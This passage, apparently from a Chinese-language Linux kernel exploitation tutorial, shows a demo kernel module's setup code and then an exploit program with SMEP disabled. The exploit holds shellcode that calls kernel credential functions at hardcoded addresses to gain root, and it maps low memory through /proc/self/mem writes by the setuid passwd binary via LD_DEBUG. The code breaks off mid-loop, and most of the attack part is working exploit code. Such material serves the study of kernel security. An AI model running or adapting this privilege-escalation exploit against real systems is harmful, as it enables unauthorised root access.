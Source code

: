 ```

static struct file_operations fops =
{
 .owner = THIS_MODULE,
 .read = custom_read
};

// Custom init and exit methods
static int __init custom_init(void) {
 proc_entry = proc_create("helloworlddriver", 0666, NULL, &fops);
 printk(KERN_INFO "Hello world driver loaded.");
 return 0;
}

static void __exit custom_exit(void) {
 proc_remove(proc_entry);
 printk(KERN_INFO "Goodbye my friend, I shall miss you dearly...");
}

module_init(custom_init);
module_exit(custom_exit); 

```
然后更新exp，当然这里是把SMEP给关掉的，不然会被拦截：

```

#include<stdio.h>
#include<sys/mman.h>
#include<err.h>
#include<fcntl.h>
#include<string.h>
#include<stdlib.h>
#include<unistd.h>
#include<sys/stat.h>
#include<sys/types.h>
#include<sys/ioctl.h>
/*

   0:   48 31 c0                xor    %rax,%rax
   3:   48 31 ff                xor    %rdi,%rdi
   6:   e8 85 1b 08 81          callq  ffffffff81081b90 <_end+0xffffffff80e81b78>
   b:   48 89 c7                mov    %rax,%rdi
   e:   e8 dd 17 08 81          callq  ffffffff810817f0 <_end+0xffffffff80e817d8>
  13:   c3                      retq

*/
char payload[] = "\x48\x31\xc0\x48\x31\xff\xe8\x85\x1b\x08\x81\x48\x89\xc7\xe8\xdd\x17\x08\x81\xc3";

int main()
{
	void *map = mmap((void*)0x10000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED,-1,0);
	if (map == MAP_FAILED) err(1, "mmap");
	int fd = open("/proc/self/mem", O_RDWR);
	if (fd == -1) err(1,"open");
	unsigned long addr = (unsigned long)map;
	while(addr != 0){
		addr -= 0x1000;
		if (lseek(fd, addr, SEEK_SET) == -1) err(1, "lseek");
		char cmd[1000];
		sprintf(cmd, "LD_DEBUG=help passwd 1>&%d", fd);
		system(cmd);
```